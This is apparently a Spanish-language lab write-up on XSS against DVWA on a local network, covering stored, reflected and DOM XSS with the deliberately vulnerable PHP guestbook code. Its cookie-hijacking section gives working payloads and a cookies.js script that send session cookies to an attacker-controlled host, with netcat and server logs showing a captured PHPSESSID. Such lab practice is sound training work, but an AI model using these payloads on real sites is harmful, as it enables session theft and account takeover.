






## XSS stored (almacenado)

Significa, simplificando los términos que el codigo inyectado se almacena en el mismo código fuente de la aplicación principal, aunque el objetivo final son los usuarios que visitan la página y no la aplicación.



**Código vulnerable**  
Se puede observar que la información se carga directamente el la Base de Datos sin ningun procesamiento

`striplashes`: quita las barras de un string con comillas escapadas

```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

----

## XSS reflected (no persistente)

No almacenan el código malicioso en el servidor sino que lo pasan y presentan directamente a la víctima. Es el métido mas popular de ataque XSS. El ataque se lanza desde una fuente externa, mediante email o un sitio de terceros.





----

## XSS DOM

Es un tipo especial de XSS reflected. Es una vulnerabilidad basada en el modelo de objetos de documentos DOM. Su activación no necesita pasar por un lado del servidor, es decir, la defensa en el lado del servidor no funciona.

Url payload

```
http://192.168.0.103/dvwa/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(document.cookie)%3C/script%3E
http://192.168.0.103/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```



Inspeccionando el código



----

## Cookie hijacking

Payload: `<script>document.location='http://192.168.0.107:8000/test?cookie='+document.cookie</script>`

```
❯ nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.107] 40620
GET /test.php?cookie=security=low;%20s_fid=38801F54C8A2AFA3-0BB2579458D0B535;%20PHPSESSID=37khjhpnjgi2sva8g536mqk7hn HTTP/1.1
Host: 192.168.0.107:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.103/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.location%3D%27http%3A%2F%2F192.168.0.107%3A8000%2Ftest.php%3Fc%3D%27%2Bdocument.cookie%3C%2Fscript%3E
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 14 Oct 2021 05:50:36 GMT
```

Haciendo uso de JavaScript

Payload: `<script src="http://192.168.0.107:8000/cookies.js"></script>`



Contenido de `cookies.js`

```
function cookies(){
    var img = document.createElement('img');
    img.src = "http://192.168.0.107:8000/" + document.cookie;
docuemnt.body.appendChild(img);
}
cookies();
```

Servidor local con python

```
❯ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.0.107 - - [14/Oct/2021 01:07:03] "GET /cookies.js HTTP/1.1" 200 -
192.168.0.107 - - [14/Oct/2021 01:07:03] code 404, message File not found
192.168.0.107 - - [14/Oct/2021 01:07:03] "GET /security=low;%20s_fid=38801F54C8A2AFA3-0BB2579458D0B535;%20PHPSESSID=37khjhpnjgi2sva8g536mqk7hn HTTP/1.1" 404 -
```
